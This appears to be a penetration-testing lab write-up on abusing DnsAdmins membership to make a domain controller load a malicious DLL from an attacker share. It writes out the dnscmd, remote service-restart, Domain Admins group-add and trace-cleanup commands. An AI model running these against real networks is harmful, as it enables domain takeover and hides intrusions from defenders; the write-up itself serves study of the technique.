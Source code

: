 # From DnsAdmins to SYSTEM to Domain Compromise

In this lab I'm trying to get code execution with `SYSTEM` level privileges on a DC that runs a DNS service as originally researched by Shay Ber [here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

The attack relies on a [DLL injection](../../offensive-security/t1055-process-injection/dll-injection.md) into the dns service running as SYSTEM on the DNS server which most of the time is on a Domain Contoller.

## Execution

For the attack to work, we need to have compromised a user that belongs to a `DnsAdmins` group on a domain. Luckily, our user `spotless` already belongs to the said group:

```csharp
 net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-16-55-52.png)

### Building the DLL

As mentioned earlier, we need to build a DNS plugin DLL that we will be injecting into a dns.exe process on a victim DNS server \(DC\). Below is a screenshot of the DLL exported functions that are expected by the dns.exe binary. I have also added a simple system command to invoke a netcat reverse shell once the plugin is initialized and code is executed. 

I then tested the function with rundll32 as shown below, which returned a reverse shell to my attacking machine:

```csharp
rundll32.exe .\dnsprivesc.dll,DnsPluginInitialize
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-30-47.png)

### Abuse DNS with dnscmd

Now that we have the DLL and we checked that it is working, we can ask the victim DC to load our malicious DLL \(from the victim controlled network share on host 10.0.0.2\) next time the service starts:

{% code-tabs %}
{% code-tabs-item title="attacker@victim.memberOfDnsAdmins" %}
```csharp
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The below looks promising and suggests the request to load our malicious DLL was successful:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-55-59.png)

{% hint style="info" %}
`dnscmd` is a windows utility that allows people with `DnsAdmins` privileges manage the DNS server. The utility can be installed by adding `DNS Server Tools` to your system as shown in the below screengrab.
{% endhint %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-04-48.png)

The below command on the victim further confirms that our request was successful:

```csharp
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-51-21.png)

### Getting code execution with NT\SYSTEM

Now the next time dns service loads/gets restarted, our malicious DLL should be loaded and a reverse shell should be sent back to our attacking system, so let's go and restart the DNS service.

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
{% endcode-tabs-item %}
{% endcode-tabs %}

By this point, I should have received a reverse shell, but unfortunately, in my lab, this technique did not work as expected. 

After checking the DNS logs I saw the below error, suggesting there was something off with my DLL:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-45-51.png)

I tried exporting functions with C++ name mangling and without and although the DLL exports seemed to be OK per CFF Explorer, I was still not able to make the DC load my malicious DLL successfully:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-46-09.png)

{% hint style="warning" %}
Although I was not able to pull the attack in my labs, I did not want to remove these notes, just in case the they will be stubmled upon by a reader who had successfully carried out this attack and who would like to share their thoughts on what I am overlooking - this would be much appreciated.
{% endhint %}

Although I could not get my DLL loaded, I wanted to try injecting the meterpreter DLL into dns.exe using the same technique. 

It can be observed, that the DLL gets ineed loaded and we receive a call back from the meterpreter payload, but since the DLL does not conform to the required format \(does not have required exported functions\), the session dies immediately:

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-33-58.png)

Since the above suggests that the the DLL code still got executed, we can try asking the DLL to execute the following on the DC:

```csharp
net group 'domain admins' spotless /add /domain
```

```text
dnsprivesc.dll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-55-35.png)

Before restarting the DNS service and getting our malicious DLL executed, let's make sure our attacking user spotless is not in `Domain Admins` group:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-40.png)

Now if we restart the DNS service which will load our addDA.dll, we see that the user spotless is now a member of the `Domain Admins`:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-52.png)

{% hint style="danger" %}
Warning: at this time the DNS service is probably crashed, so this is not the stealthiest methods and probably will get picked up by defenders real quick unless you can restore the DNS service immedialy.
{% endhint %}

Below confirms that the dns service is down, but we can still access the DC C$ share by DC's IP:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-09-23.png)

You could think about scripting/automating the after-attack cleanup and DNS service restoration and include the required code in the same malicious DLL that creates a backdoor user in the first place:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
sc.exe \\10.0.0.6 stop dns
sc.exe \\10.0.0.6 start dns
//remove any other traces/logs
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-21-55.png)

We can now access the C$ using DC01 computer name:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-24-44.png)

## References

{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}

{% embed url="http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html" %}

{% embed url="https://github.com/dim0x69/dns-exe-persistance" %}

